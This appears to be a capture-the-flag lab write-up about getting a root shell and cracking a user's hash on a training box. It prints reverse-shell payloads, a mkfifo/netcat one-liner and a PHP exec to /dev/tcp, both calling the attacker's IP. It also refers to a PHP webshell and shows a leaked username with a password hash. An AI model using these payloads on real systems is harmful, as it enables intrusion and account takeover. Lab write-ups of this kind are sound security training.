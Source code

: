 # First Contact

This time I thought would continue black-boxing from this point:

Enumerate box
```bash
which nc
/usr/bin/nc

which python3
/usr/bin/python3

id
uid=0(root) gid=0(wheel) groups=0(wheel)
```
No socat unfortunately, but hopeful I will hopeful use it later.
Check the tmp directory exists and its contents
![fw-tmp-dir](Screenshots/fw-ls-la-tmp)
Executed a Bash shell, change $IP and $PORT to Kali VM with listener listening:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
chmod +x /tmp/f
/tmp/f
```

![denied1](fw-Shell-denied.png)

I tried also:
```bash
chmod 777 /tmp/f

nc -lvnp 8080 # only got usage prompt so no execution:
usage: nc [-46DdEFhklNnrStUuvz] [-e policy] [-I length] [-i interval] [-O length]
	  [-P proxy_username] [-p source_port] [-s source] [-T ToS]
	  [-V rtable] [-w timeout] [-X proxy_protocol]
	  [-x proxy_address[:port]] [destination] [port]
```

The I tried a pentest monkey webshell seeing as it is a website of sorts.

```bash
chmod +x /tmp/monkey.php
/tmp/monkey

/tmp/monkey.php: cannot open ?php: No such file or directory
/tmp/monkey.php: //: Permission denied
/tmp/monkey.php: 3: Syntax error: "(" unexpected
```

Also it uploaded to /tmp, not /var/www/html/. So then I tried:

```php
"<?php exec("/bin/bash -c 'bash -i > /dev/tcp/$ip/$port 0>&1'");?>"
```

![denied2]((Screenshots/fw-phpExecDenied.png)

Then tried putting the pentest monkey code into the execute php command changed the I provided IP address of the Kali VM on THM to its inet IP not generic IP used in reverse shells. 

![root-fw](fw-initial-root.png)

And the flag

![root-fw](fw-root-flag.png)

Tried stablising with:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

But it broke, tried again:

![root-stab](fw-shell-stab-broke.png)

![root-log](fw-find-logs.png)

Why would you have login.log

HumphreyW:1c13639dba96c7b53d26f7d00956a364

![cracked](fw-humpreyw-cracked.png)

Note that if this was an actual Pentest that permission to use third party Hashcracking would have to be within scope due to handing over confidential data to an outside source in the form of a hash. If that third was compromised morally or in terms of their security then traffic data could be linked to the hash.

